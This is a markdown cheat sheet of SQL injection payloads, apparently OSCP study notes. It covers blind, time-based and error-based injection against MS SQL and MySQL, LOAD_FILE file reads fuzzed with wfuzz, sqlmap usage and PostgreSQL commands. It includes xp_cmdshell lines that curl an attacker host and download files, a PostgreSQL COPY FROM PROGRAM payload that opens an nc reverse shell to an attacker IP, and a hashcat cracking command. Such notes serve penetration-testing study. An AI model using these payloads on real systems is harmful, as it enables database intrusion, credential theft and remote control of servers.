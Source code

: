 ### :open_file_folder: References

- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
- https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
- https://notchxor.github.io/oscp-notes/2-web/sqli/
- https://www.asciitable.com/
- https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
- https://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

### :open_file_folder: Blind SQL Injections

Find columns names

```SQL
' HAVING 1=1 --
' GROUP BY table.column1 HAVING 1=1 --
' GROUP BY table.column1, column2 HAVING 1=1 --
' GROUP BY table.column1, column2, column3(n) HAVING 1=1 -- and so on
```

Time-Based 

Use the waiting time to determine whether the conditional equation is valid

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(lower(substring((select TOP 1 username from users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on

-- e.g. confirm that the username is correct
'; IF (substring((select TOP 1 username from users), 1, 5) = 'admin') WAITFOR DELAY '00:00:05'--
```

```SQL
-- check column length
'; IF (select LEN(password) from users) = 64 WAITFOR DELAY '00:00:05' --
```

single column condition test

```SQL
/* 
    Check if there are uncommon [mysql] db names
    if found, wait N seconds
    ='1'...= '2'... and so on
*/
SELECT 'y' 
WHERE 1=0 or 
SLEEP(IF((SELECT COUNT(*) FROM information_schema.schemata 
WHERE schema_name NOT IN ('information_schema', 'mysql', 'performance_schema'))='1', 5, 0)); 
```

[MS SQL xp_cmdshell command testing](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)

```SQL
'; EXEC xp_cmdshell 'curl http://<attacker ip>'; --
'; EXEC xp_cmdshell 'curl http://<attacker ip>/<file> -o C:\\Users\\Public\\Documents\\<file>'; --
```

### :open_file_folder: Error-Based

SQL Server 

- https://infosecwriteups.com/exploiting-error-based-sql-injections-bypassing-restrictions-ed099623cd94
- https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/

```SQL
/* Adding additional strings ensures that error messages are prompted. */

/* database */
(CASE WHEN 1=CONVERT(INT, (CHAR(58) + CHAR(58) + (SELECT TOP 1 CAST(([name]) AS NVARCHAR(4000)) FROM [master]..[sysdatabases] WHERE name NOT IN ('master','model','msdb','tempdb')) + CHAR(58) + CHAR(58))) THEN 1 ELSE 2 END)

/* table */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables)) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN ('test'))) THEN 1 ELSE 2 END)

/* column */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test')) THEN 1 ELSE 2 END)
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column_name FROM information_schema.columns where table_name = 'test' AND column_name NOT IN ('id'))) THEN 1 ELSE 2 END)

/* data */
(CASE WHEN 1=CONVERT(INT, (SELECT TOP 1 column1+';'+column2 FROM [database].dbo.test where id = '1')) THEN 1 ELSE 2 END)
```

### :open_file_folder: MySQL

Get DBs

```MySQL
SELECT group_concat(schema_name) FROM information_schema.schemata;
# For example, assuming that only one column is searched
# ' UNION SELECT group_concat(schema_name) FROM information_schema.schemata #
```

Get tables in DB

```MySQL
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = '<DB>';
```

Get columns in table

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '<table>';
```

Find all ```user``` tables in DBs

```MySQL
SELECT group_concat(column_name) FROM information_schema.columns where table_name = 'user';
# SELECT password FROM user
# MD5 password, hashcat -a 0 -m 0 hash.txt rockyou.txt
```

[Load file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file): we need FILE privilege

```MySQL
SELECT * LOAD_FILE('C:\Windows\System32\drivers\etc\hosts')
/* table contains columns */
x' UNION SELECT 1, LOAD_FILE('C:\Windows\System32\drivers\etc\hosts'),3-- -
```

Combining website LFI

```shell
wfuzz -z file,/tmp/file_inclusion_linux.txt -d "username=' UNION SELECT 1, LOAD_FILE('FUZZ'), 3, 4, 5, 6; -- -" --hw 89 <url>
# -d postdata
# -z file,wordlist
# hw:hide responses words
```

### :no_entry: sqlmap (:radioactive::radioactive::radioactive: cannot be used in the exam)

```
sqlmap -u "url" --dump -C "columns" -T "tables" -D "database" 
sqlmap -r post.txt -p "parameter_name" --dump -C "columns" -T "tables" -D "database"
```

post.txt = request contents

![SQLi_2022 02 28_19h37m55s_001](https://user-images.githubusercontent.com/8998412/155977929-7e38d3bb-8d61-4afa-af6b-90ae1e13ec73.png)


### :no_entry: MS SQL

```sql
SELECT name, database_id, create_date FROM sys.databases;
SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
SELECT TABLE_NAME FROM <databasename>.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
```

### :open_file_folder: PostgreSQL

connect to the database

```sql
psql -U postgres -h localhost
```

show databases and tables

```shell
# show databases
postgres=# \l
postgres=# SELECT datname FROM pg_database;
# use database
postgres=# \c testDB
# show tables
postgres=# \dt
postgres=# SELECT * FROM pg_catalog.pg_tables WHERE schemaname != 'pg_catalog' AND schemaname != 'information_schema';
# exit command line
postgres=# \q
# check version
postgres=# SELECT version();
```

Reverse shell with PostgreSQL user privilege.

```shell
postgres=# DROP TABLE IF EXISTS RevCmd;
postgres=# CREATE TABLE RevCmd(rev_cmd text);
postgres=# COPY RevCmd FROM PROGRAM '/tmp/nc -e /bin/sh <attacker ip> <attacker port>';
# try different commands, e.g., id
# postgres=# SELECT * FROM RevCmd;
# one liner
$ psql -U postgres -h localhost -c "DROP TABLE IF EXISTS RevCmd;CREATE TABLE RevCmd(rev_cmd text);COPY RevCmd FROM PROGRAM '/tmp/nc -e /bin/sh <attacker ip> <attacker port>';"
```